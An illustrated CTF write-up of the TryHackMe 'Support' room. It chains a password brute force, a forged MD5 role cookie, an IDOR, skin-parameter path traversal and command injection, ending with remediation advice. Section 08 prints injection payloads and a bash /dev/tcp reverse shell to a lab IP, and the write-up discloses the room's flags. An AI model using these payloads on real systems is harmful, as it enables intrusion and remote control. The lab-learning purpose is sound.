# THM — Support | Illustrated Writeup

A new internal **Support Operations Platform** has been deployed to assist IT and helpdesk teams. The application handles user management, internal APIs, and system-level operations. However, security was not the primary focus during development. Several features rely on user-controlled input and weak trust boundaries.

**How I pentested the Support Operations Platform, from a weak helpdesk password all the way to a reverse shell.**

| | |
|---|---|
| **Target** | 10.114.178.158 |
| **Services** | SSH + HTTP |
| **Tool** | Burp Suite — web exploitation |

**My path:** nmap → login brute force → dir/file fuzzing → forge the IT cookie → API IDOR → skin LFI (source disclosure) → admin login → command injection. **Admin flag:** `THM{I_AM_ADMIN999}` · **User flag:** `THM{GOT_THE_FLAG001}`

| Item | Value |
|---|---|
| Initial account | `help@support.thm` |
| Cracked password | `snoopy` |
| Default cookie | `isITUser = md5("false") = 68934a3e9455fa72420237eb05902327` |
| Forged cookie | `isITUser = md5("true") = b326b5062b2f0e69046810717534cb09` |
| Admin account (via IDOR) | `specialadmin@support.thm` |
| Master password | `support@110` → login with the `@` removed → `support110` |

---

## Directory

| # | Section |
|---|---|
| 01 | [Recon — nmap](#01-recon-nmap) |
| 02 | [Login brute force (Burp Intruder)](#02-login-brute-force-burp-intruder) |
| 03 | [Fuzzing — directories, then files](#03-fuzzing-directories-then-files) |
| 04 | [api.php denied → forge the isITUser cookie](#04-apiphp-denied-forge-the-isituser-cookie) |
| 05 | [Internal user API → IDOR → admin email](#05-internal-user-api-idor-admin-email) |
| 06 | [Skin LFI → source disclosure → master password](#06-skin-lfi-source-disclosure-master-password) |
| 07 | [Admin login → admin flag](#07-admin-login-admin-flag) |
| 08 | [Command injection via the date widget](#08-command-injection-via-the-date-widget) |
| — | [Summary — the chain](#summary-the-chain) |

---

## 01 Recon — nmap

A quick scan showed only two services: **SSH** and **HTTP**. Port 80 hosted the support portal, so that was the target.

```bash
nmap -sC -sV -oN nmap.txt 10.114.178.158
# 22/tcp open  ssh
# 80/tcp open  http   -> Support Operations Panel
```

---

## 02 Login brute force (Burp Intruder)

Root redirected to an **Employee Authentication** page that referenced the helpdesk account `help@support.thm` — so I had the username and only needed the password.


*Figure 1 — The login page names the helpdesk account `help@support.thm`.*

I caught the login POST in Burp, sent it to **Intruder**, set a **Sniper** position on the password only, and loaded `rockyou.txt`.


*Figure 2 — Intruder configured with the password as the only payload position (`rockyou.txt`).*

The valid password stood out immediately — a **302 redirect** (length 456) while every failed guess stayed 200. That response also set the `isITUser` cookie.


*Figure 3 — Password `snoopy` returns a 302 redirect — the odd one out.*

```
Cracked: help@support.thm : snoopy
```

> Alt: `hydra http-post-form`, or `ffuf -fc 200`.

---

## 03 Fuzzing — directories, then files

Logged in, I landed on a plain low-privilege helpdesk dashboard.


*Figure 4 — The default "Welcome, Helpdesk User" dashboard after login.*

I ran Intruder over a wordlist to map the app — directories first, then PHP files.


*Figure 5 — Directory fuzzing surfaces `/skins`, `/layout`, `/includes`, `/js`.*


*Figure 6 — File fuzzing surfaces `api.php`, `config.php`, `dashboard.php`, `footer.php`.*

Then I browsed straight into `/skins` — directory listing was on, and it exposed the theme files themselves:


*Figure 7 — The `/skins` folder lists `blue.php`, `default.php`, `green.php`, `red.php` — one file per theme.*

This was the pivotal clue. The footer's **Select Theme** menu links to `?skin=default|red|green|blue`, and here were the matching `<name>.php` files on disk. So the app was clearly loading `skins/<skin>.php` from that parameter — exactly the kind of thing you can abuse with path traversal. I parked that thought and came back to it once I was stuck.

> Alt: DirBuster, `gobuster -x php`, feroxbuster, dirsearch.

---

## 04 api.php denied → forge the isITUser cookie

Hitting `/api.php` directly just returned **Access denied**.


*Figure 8 — Direct request to `api.php` is refused.*

Looking at the request, I was carrying a cookie `isITUser=68934a3e9455…` — which is the **MD5 of `false`**.


*Figure 9 — The denied request shows `isITUser = md5('false')`.*

So I computed the MD5 of `true` in CyberChef and swapped the cookie value.


*Figure 10 — `md5('true') = b326b5062b2f0e69046810717534cb09`.*

```
Cookie: isITUser=b326b5062b2f0e69046810717534cb09
```

The homepage immediately grew an **IT Admin Panel** with a **View API** button, and `api.php` stopped denying me.

> Alt: `printf true | openssl md5`, or Python `hashlib.md5(b"true").hexdigest()`.

---

## 05 Internal user API → IDOR → admin email

The API said a helpdesk user could query their own profile at `/user/3`.


*Figure 11 — The API invites you to read your own profile at `/user/3` (`admin: false`).*

The ID wasn't tied to my session, so I just changed it — classic **IDOR**.


*Figure 12 — `/user/1` leaks `specialadmin@support.thm` with `admin: true`.*

```
Admin account found: specialadmin@support.thm
```

> Alt: fuzz `/user/FUZZ` in Intruder to dump every account.

---

## 06 Skin LFI → source disclosure → master password

Up to here I hadn't seen a single line of source. This is the step that leaked it.

Stuck for a while, I started playing with the URL and appended `../config` to the skin parameter. The UI suddenly changed, and opening **view-source** printed the portal's raw PHP — including the **master password**.


*Figure 13 — `dashboard.php?skin=../config` discloses `config.php` — `$MASTER_PASSWORD = 'support@110'`.*

The dashboard source showed exactly why it works: the loader builds `skins/ + $skin + ".php"` and only checks the path stays under `/var/www/html`, so `../` escapes the skins folder.


*Figure 14 — `dashboard.php` source: path built from the skin param, checked only against the web root.*


*Figure 15 — `skin=../api` discloses `api.php` — the `md5('true')` cookie check and the IDOR user lookup.*

**Key trick:** don't type `.php` in the payload — the app adds it. `../config.php` becomes `config.php.php` and fails. Use `../config`, `../api`, `../dashboard`.

---

## 07 Admin login → admin flag

I logged in with the admin email and the master password. It kept failing… until I caught the trick: it only worked after **removing the `@`** from the password.

```
email: specialadmin@support.thm   password: support110   # support@110 with the @ removed
```

That put me in the admin's shoes, and the first flag was on the homepage.


*Figure 16 — Administrator Access Confirmed — `THM{I_AM_ADMIN999}`.*


*Figure 17 — The admin flag page under the red theme — note the new **Date** widget that just appeared in the footer.*

??? success "Flag 1 — click to reveal"

    ```
    THM{I_AM_ADMIN999}
    ```

---

## 08 Command injection via the date widget

As admin, a new **time/date widget** appeared in the footer. Its source exposed the database path, and changing the date fired an API call with a `sys` parameter. Sending `date` alone was rejected ("only date functions"), so I chained it with a **pipe**.


*Figure 18 — Intercepted POST: the `sys` parameter with an injected command after `date`.*

```
$sys=date | cat /home/ubuntu/user.txt
```

The command output rendered straight back into the page.


*Figure 19 — The page after the injected POST fires — the output rendered in the footer and returned the user flag.*

??? success "Flag 2 — click to reveal"

    ```
    THM{GOT_THE_FLAG001}
    ```

I didn't need a shell — the flag came straight from the injection. If you did want one, the same `sys` param runs it:

```
sys=date | bash -c 'bash -i >& /dev/tcp/10.10.17.18/8000 0>&1'
```

with `nc -lvnp 8000` listening.

> Alt separators if the pipe is filtered: `date; ls` · `date && ls` · `$(ls)`.

---

## Summary — the chain

| # | Weakness | Severity | What it gave me |
|---|---|---|---|
| 1 | Weak password / no login protection | Medium | Helpdesk foothold (snoopy) |
| 2 | Client-side role trust (`isITUser` cookie) | Critical | Forged IT role |
| 3 | IDOR / BOLA in user API | High | Admin email |
| 4 | Skin loader path traversal (LFI) | Critical | Source + master password |
| 5 | Hard-coded master password in source | Critical | Admin login |
| 6 | Command injection in date widget | Critical | Read `/home/ubuntu/user.txt` |

### Remediation

Strong passwords with lockout/rate-limiting; store roles server-side and never trust a client cookie for authorization; enforce object-level access so users read only their own profile; allow-list skin names and resolve against `/var/www/html/skins`; remove and rotate hard-coded secrets and require MFA for admins; and never pass user input to a shell.

!!! note

    Flags: admin `THM{I_AM_ADMIN999}` · user `THM{GOT_THE_FLAG001}` — educational writeup for the TryHackMe [Support](https://tryhackme.com/room/support) room. For authorized lab use only.

---

| | |
|---|---|
| ← Previous | [HTB — Base](../../HTB/Easy/Base.md) |
| Back to index | [All write-ups](../../README.md) · [THM](../README.md) · [THM — Medium](README.md) |
| Next → | *Coming soon* |
